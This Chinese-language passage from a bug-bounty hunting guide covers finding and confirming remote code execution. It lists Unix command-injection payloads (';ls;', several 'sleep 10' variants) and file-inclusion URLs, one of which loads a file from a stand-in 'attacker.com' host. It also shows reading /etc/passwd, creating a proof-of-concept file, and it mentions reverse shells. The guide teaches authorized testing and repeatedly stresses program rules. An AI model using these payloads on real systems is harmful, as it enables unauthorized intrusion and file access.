 **Unix 载荷**

此命令打印系统命令`ls`的结果：

```
;ls;
```

这些命令将响应延迟 10 秒：

```
| sleep 10;
& sleep 10;
` sleep 10;`
$(sleep 10)
```

对于文件包含漏洞，你应该尝试让端点包含一个你可以控制的远程文件或本地文件。例如，对于远程文件包含，你可以尝试多个指向你托管的恶意文件的 URL 形式：

```
http://example.com/?page=http://attacker.com/malicious.php
http://example.com/?page=http:attacker.com/malicious.php
```

对于本地文件包含漏洞，尝试使用指向你控制的本地文件的不同 URL：

```
http://example.com/?page=../uploads/malicious.php
http://example.com/?page=..%2fuploads%2fmalicious.php
```

你可以使用第十三章中学到的保护绕过技巧来构造相同 URL 的不同形式。

### 第 4 步：确认漏洞

最后，通过执行像`whoami`、`ls`和`sleep 5`这样的无害命令来确认漏洞。

## 提升攻击

在提升 RCE 漏洞时要格外小心。大多数公司更倾向于你不要尝试提升 RCE，因为他们不希望有人在包含机密数据的系统中乱搞。在一次典型的渗透测试中，黑客通常会试图弄清楚当前用户的权限，并在获得 RCE 后尝试进行权限提升攻击。但在漏洞悬赏的背景下，这样做是不合适的。你可能会意外地读取到关于客户的敏感信息，或者通过修改关键文件造成系统损坏。务必仔细阅读漏洞悬赏程序的规则，以免越界。

对于经典的 RCE，创建一个执行无害命令（如`whoami`或`ls`）的概念证明。你也可以通过读取一个常见的系统文件（如*/etc/passwd*）来证明你找到了 RCE 漏洞。你可以使用`cat`命令来读取系统文件：

```
cat /etc/passwd
```

在 Linux 系统中，*/etc/passwd*文件包含系统的账户及其用户 ID、组 ID、主目录和默认 shell。这些文件通常无需特殊权限即可读取，因此这是一个首先尝试访问的好文件。

最后，你可以在系统中创建一个具有独特文件名的文件，如*rce_by_YOUR_NAME.txt*，这样就清楚地表明该文件是你 POC 的一部分。你可以使用`touch`命令在当前目录中创建一个具有指定名称的文件：

```
touch rce_by_`YOUR_NAME`.txt
```

对于盲目 RCE，创建一个执行`sleep`命令的 POC。你还可以在目标机器上创建一个反向 shell，连接回你的系统，来创建一个更具影响力的 POC。然而，这通常违反程序规则，所以在进行之前一定要确认。
